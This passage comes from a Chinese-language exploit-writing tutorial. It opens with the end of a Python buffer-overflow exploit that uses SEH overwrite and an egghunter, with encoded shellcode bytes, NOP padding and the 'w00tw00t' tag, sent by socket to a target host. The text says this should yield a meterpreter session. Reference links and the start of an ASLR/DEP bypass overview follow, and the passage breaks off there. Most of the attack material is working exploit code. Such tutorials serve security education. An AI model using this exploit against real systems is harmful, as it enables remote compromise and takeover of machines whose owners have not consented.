 ```
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        nop = "\x90" * 301
        tag = "w00tw00t"
        buffer1 = "USV "
        buffer1 += nop * 2 + "\x90" * 360
        buffer1 += nseh + seh # 8
        buffer1 += "\x90" * 6 #
        buffer1 += egghunter
        buffer1 += nop
        buffer1 += tag
        buffer1 += buffer
        buffer1 += "\x90" * (3504 - len(buffer))
        buffer1 += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer1)
        print "Sent!!"
        sock.close()
```

1.  我们继续将其保存为`script.py`并使用`python script.py`运行它。

1.  而且，我们应该有一个等待我们的 meterpreter 会话。

我们编写的利用代码可能无法在每个系统上以完全相同的方式工作，因为有多个依赖项取决于操作系统版本、软件版本等。

# 另请参阅

+   [`www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/`](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)

+   [`www.fuzzysecurity.com/tutorials/expDev/4.html`](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

# ASLR 和 NX 绕过概述

**地址空间布局随机化**（**ASLR**）于 2001 年由 PaX 项目作为 Linux 补丁引入，并集成到 Windows Vista 和后来的操作系统中。这是一种内存保护，通过随机化可执行文件在内存中加载的位置，可以防止缓冲区溢出。**数据执行防护**（**DEP**）或**不执行**（**NX**）也是在 Windows Vista 上的 Internet Explorer 7 中引入的，它通过阻止从内存中标记为不可执行的代码执行来防止缓冲区溢出。

# 如何做...

我们首先需要规避 ASLR。基本上有两种方式可以绕过 ASLR：
